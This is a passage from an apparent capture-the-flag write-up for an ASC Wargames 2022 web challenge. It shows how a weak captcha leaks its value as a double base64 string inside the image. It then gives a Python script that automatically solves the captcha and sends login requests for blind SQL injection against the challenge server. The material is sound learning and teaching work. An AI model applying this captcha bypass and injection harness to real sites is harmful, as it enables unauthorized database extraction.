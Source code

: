 So, there is something hidden somewhere in the database... Even the home page after logging in doesn't have any kind of access verification & we are simply being redirected to a file `kenzy_admin-panel.php`. We can use this as an oracle to extract information from the database.

Now we have the following problems:
- What do we extract?
- SQLMap isn't useable due to the captcha. (I learnt later on that it's possible to use pre-process, could've been easier.)

Going back to the challenge description, it mentioned a weak captcha so we might be able to bypass it & automate the extraction process.

We download a captcha picture ([Ref](/2022/ASC%20Wargames%202022%20Quals/sources/captcha.php.jpeg)) & we check the content of it, starting with `strings`:

<p align="center">
    <img width='70%' src='/2022/ASC%20Wargames%202022%20Quals/img/captcha_str.png'>
</p>

We see a double base-64 encoded string at the end of the file, decoding it gives us the captcha key.

With this in our hand, we can write a script to get the captcha value then send an SQL injection payload:

```python
import requests

def sendPayload(username, password):
    with requests.Session() as sess:
        resp = sess.get('http://34.175.249.72:60001/scripts/captcha.php')
        captcha = resp.content[-13:-1]
        captcha = base64.b64decode(base64.b64decode(captcha))
        
        resp = sess.post(
            "http://34.175.249.72:60001/index.php",
            data={
                "username":username,
                "password":password,
                "captcha":captcha,
                "send":"Send"
            }
        )
        if b"Invalid username or password" in resp.content:
            return 0
        
        if b"Treasures are always in the database" in resp.content:
            return 1
        
        print(resp.content)
```